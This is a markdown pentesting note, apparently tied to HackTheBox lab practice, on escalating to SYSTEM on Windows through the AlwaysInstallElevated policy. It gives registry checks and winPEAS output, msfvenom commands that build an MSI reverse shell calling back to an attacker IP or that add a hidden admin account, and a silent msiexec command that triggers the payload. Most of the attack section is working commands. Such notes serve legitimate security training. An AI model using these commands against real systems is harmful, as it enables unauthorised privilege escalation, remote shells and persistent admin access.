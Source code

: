 # Options Install Windows
## Privilege escalation with `AlwaysInstallElevated` group policy
MSI files are package files used to install applications. These files run with the permissions of the user trying to install
them. Windows allows for these installers to be run with elevated (i.e. admin) privileges.

Windows can allow low privilege users to install *Microsoft Windows Installer Package (MSI)* with **`SYSTEM`** privileges by **AlwaysInstallElevated** group policy.
So, we can generate a malicious MSI file which contains a reverse shell.
### Prerequisites
The catch is that two Registry settings must be enabled for this to work (value is 0x1), then users of **any privilege** can install (execute) `*.msi` files as **NT AUTHORITY\SYSTEM**.

The **AlwaysInstallElevated** value must be set to 1 for both: 
- the local machine:
```console
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
- the current user:
```console
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
If either of these are missing or disabled, the exploit will not work.
### Exploitation
1. Use **winPEAS** to see if both registry values are set:
```console
> .\winPEASany.exe quiet windowscreds
����������͹ Checking AlwaysInstallElevated
 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
2. Alternatively, verify the values manually:
```console
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
```console
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
3. Create a new reverse shell with msfvenom, this time using the **msi** format, and save it with the **.msi** extension:
```console
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=8888 -f msi -o reverse.msi
```
or
```console
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
4. Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
```console
> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
If you have a meterpreter session you can automate this technique using the module **`exploit/windows/local/always_install_elevated`**
*See an example at the Love machine - hackthebox*
